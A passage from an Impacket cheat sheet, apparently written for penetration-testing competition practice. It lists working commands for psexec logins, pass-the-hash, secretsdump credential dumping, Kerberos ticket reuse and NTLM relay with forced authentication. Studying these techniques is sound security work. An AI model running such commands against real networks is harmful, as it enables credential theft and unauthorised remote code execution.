 ### Standard Credential Formats:

```bash
# Format: domain/username:password@target
impacket-psexec 'CORP/admin:Password123@10.10.10.10'

# Without domain (local auth)
impacket-psexec 'administrator:Password123@10.10.10.10' -dc-ip 10.10.10.10

# Just username@target (will prompt for password)
impacket-psexec 'admin@10.10.10.10'
```

---

### Pass-the-Hash (Most Common in CPTC):

```bash
# Format: -hashes LM:NT
# LM hash usually empty: aad3b435b51404eeaad3b435b51404ee

# Pass-the-Hash syntax:
impacket-psexec -hashes ':8846f7eaee8fb117ad06bdd830b7586c' 'administrator@10.10.10.10'

# Works with any tool:
impacket-secretsdump -hashes ':HASH' 'admin@10.10.10.10'
impacket-wmiexec -hashes ':HASH' 'admin@10.10.10.10'
```

**When you have hash but not password:** Use this!

---

### Kerberos Authentication:

```bash
# Use existing TGT
export KRB5CCNAME=/path/to/ticket.ccache

# Use -k flag (Kerberos) and -no-pass
impacket-psexec -k -no-pass 'administrator@DC01.corp.local'

# Note: Use FQDN (DC01.corp.local) not IP when using Kerberos
```

---

## 5. Advanced Techniques

### ntlmrelayx.py - NTLM Relay Attack

**When:** SMB signing disabled, can coerce authentication

```bash
# Start relay (listens for NTLM auth, relays to target)
impacket-ntlmrelayx -t 10.10.10.10 -smb2support

# Coerce authentication from another terminal:
# (using PrinterBug, PetitPotam, etc.)

# When target authenticates:
# - Automatically relays to 10.10.10.10
# - Executes commands or dumps secrets
```
